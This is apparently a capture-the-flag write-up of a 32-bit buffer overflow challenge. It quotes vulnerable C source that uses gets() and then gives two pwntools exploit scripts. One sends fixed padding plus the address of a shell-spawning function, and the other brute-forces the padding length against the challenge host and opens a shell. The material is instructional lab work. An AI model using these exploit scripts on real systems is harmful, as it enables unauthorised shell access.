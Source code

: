 ## Baby Buffer Overflow - 32bit
Given the name, this will be a buffer overflow binary exploitation. So given the download of a binary and the c source code (**do not** compile it), lets take a look at the source.
```c
void target(){
    puts("Jackpot!");
    char* executable="/bin/bash"; // Invokes a shell
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}
int vuln(){
    char buf[16]; // 16 byte buffer is exploitable
    gets(buf);
    return 0;
}
```
Since there are no protections on this binary, we can simply run this command to get memory address of the target() function. Ghidra or IDA will also work.
```sh
objdump -d babybufov | grep "target"  
080491f5 <target>:
```
So we need to overwrite the buffer and slide into that function address (hex = 0x080491f5)
It is nice of them to print "Jackpot!" as it makes for an easier time finding your padding.
Originally I did the method creating a pattern of known length, and finding where it broke the binary, arriving at 28 bytes. But I also decided to have fun and practice my pwntools skills by making an autopwner for this challenge. Probably can tweak it for other things. Anyways here's both, just one is quick and the other is more fun.

**Option 1** : You calculated the padding and send one payload
```python
from pwn import *
# change port
p = remote('challenge.ctf.games', PORT)

payload = b"A" * 28
payload += p32(0x080491f5) 

p.sendline(payload)
p.interactive()
```

**OPTION 2** : We know target address but want to autopwn padding remotely with nice logs
```python
from pwn import *

TARGET_ADDRESS = 0x080491f5  	# Target memory address
PORT = 32565                 	# Remote server port
HOST = 'challenge.ctf.games' 	# Remote server host
MAX_PADDING = 50             	# Maximum padding to 

GREEN = "\033[92m"
RESET = "\033[0m"
context.log_level = 'error'

def autopwn(target_address, port, max_padding):
    print(f"URL: {HOST}:{port}\nTarget Address: {hex(target_address)}")
    padding = 16

    while padding <= max_padding:
        try:
            payload = b"A" * padding + p32(target_address)
            print(f"Attempting Padding size: {padding}", end="\r")

            p = remote(HOST, port)
            p.sendline(payload)
            response = b""
            try:
                while True:
                    part = p.recv(timeout=5)
                    if not part: break
                    response += part
            except EOFError:
                pass

            if response and (b"$" in response or b"#" in response or b"Jackpot!" in response):
                print(f"{GREEN}Attempting Padding size: {padding} - Success!{RESET}")
                p.interactive()
                break
        except EOFError:
            print(f"Padding size {padding} - Disconnected.", end="\r")
        except Exception as e:
            print(f"[ERROR] {e}")
        finally:
            p.close()
        padding += 1

autopwn(TARGET_ADDRESS, PORT, MAX_PADDING)
```
